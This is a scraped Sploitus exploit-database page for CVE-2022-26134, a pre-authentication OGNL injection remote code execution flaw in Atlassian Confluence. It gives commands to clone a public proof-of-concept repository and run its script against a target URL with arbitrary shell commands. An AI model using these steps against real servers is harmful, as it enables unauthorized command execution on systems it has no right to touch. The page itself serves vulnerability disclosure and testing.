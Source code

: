 ```yaml
---
title: Exploit for Expression Language Injection in Atlassian Confluence Data Center exploit
url: https://sploitus.com/exploit?id=7B61818F-49E5-5BAE-A937-2DED4CAE1570&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-05-03
fetch_date: 2025-10-06T17:14:22.658038
---
```


# Exploit for Expression Language Injection in Atlassian Confluence Data Center exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Expression Language Injection in Atlassian Confluence\_Data\_Center CVE-2022-26134

2024-05-02 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=7B61818F-49E5-5BAE-A937-2DED4CAE1570
# CVE-2022-26134
CVE-2022-26134 - Confluence Pre-Auth RCE | OGNL injection

- Download PoC script

```
git clone https://github.com/crowsec-edtech/CVE-2022-26134
cd CVE-2022-26134
```

- Run exploit

```
USE: python3 exploit.py https://target.com CMD
Ex: python3 exploit.py https://target.com id
Ex: python3 exploit.py https://target.com 'ls -la'

```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)